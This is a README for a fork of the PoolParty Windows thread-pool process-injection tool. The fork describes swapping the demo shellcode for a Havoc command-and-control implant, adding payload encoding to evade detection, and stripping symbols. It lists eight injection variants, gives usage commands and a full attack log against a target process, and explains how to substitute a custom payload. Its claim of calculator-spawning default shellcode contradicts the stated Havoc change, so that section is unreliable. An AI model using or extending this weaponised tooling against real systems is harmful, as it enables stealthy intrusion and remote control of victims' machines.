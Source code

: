 # PoolParty (Fork)
A collection of fully-undetectable process injection techniques abusing Windows Thread Pools. Presented at Black Hat EU 2023 Briefings under the title - [**The Pool Party You Will Never Forget: New Process Injection Techniques Using Windows Thread Pools**](https://www.blackhat.com/eu-23/briefings/schedule/#the-pool-party-you-will-never-forget-new-process-injection-techniques-using-windows-thread-pools-35446)

## Modifications in This Fork

1. **Changed Shellcode**:
   - Shellcode changed to havoc demon.

2. **Added Shellcode Encoding**:
   - Implemented an encoding mechanism for the shellcode to further obfuscate the payload and make it harder to detect.

3. **Removed Boost Statements**:
   - Eliminated dependencies on the Boost library to simplify the project and reduce external dependencies.

4. **Changed Compiler Settings**:
   - Modified compiler settings to remove debug symbols and produce a smaller executable. These settings enhance the security and performance of the compiled program.

## PoolParty Variants

| Variant ID  | Varient Description |
| ------------- | ----------------- |
| 1  | Overwrite the start routine of the target worker factory       |
| 2  | Insert TP_WORK work item to the target process's thread pool   |
| 3  | Insert TP_WAIT work item to the target process's thread pool   |
| 4  | Insert TP_IO work item to the target process's thread pool     |
| 5  | Insert TP_ALPC work item to the target process's thread pool   |
| 6  | Insert TP_JOB work item to the target process's thread pool    |
| 7  | Insert TP_DIRECT work item to the target process's thread pool |
| 8  | Insert TP_TIMER work item to the target process's thread pool  |

## Usage

```sh
PoolParty.exe -V <VARIANT ID> -P <TARGET PID>
```

## Usage Examples

Insert TP_TIMER work item to process ID 1234:

```sh
>> PoolParty.exe -V 8 -P 1234

[info]    Starting PoolParty attack against process id: 1234
[info]    Retrieved handle to the target process: 00000000000000B8
[info]    Hijacked worker factory handle from the target process: 0000000000000058
[info]    Hijacked timer queue handle from the target process: 0000000000000054
[info]    Allocated shellcode memory in the target process: 00000281DBEF0000
[info]    Written shellcode to the target process
[info]    Retrieved target worker factory basic information
[info]    Created TP_TIMER structure associated with the shellcode
[info]    Allocated TP_TIMER memory in the target process: 00000281DBF00000
[info]    Written the specially crafted TP_TIMER structure to the target process
[info]    Modified the target process's TP_POOL timer queue list entry to point to the specially crafted TP_TIMER
[info]    Set the timer queue to expire to trigger the dequeueing TppTimerQueueExpiration
[info]    PoolParty attack completed successfully
```

## Default Shellcode and Customization

The default shellcode spawns a calculator via the [WinExec API](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-winexec).

To customize the executable to execute, change the path at the end of the `g_Shellcode` variable present in the main.cpp file.

## Author - Alon Leviev

* LinkedIn - [Alon Leviev](https://il.linkedin.com/in/alonleviev)
* Twitter - [@_0xDeku](https://twitter.com/_0xDeku)
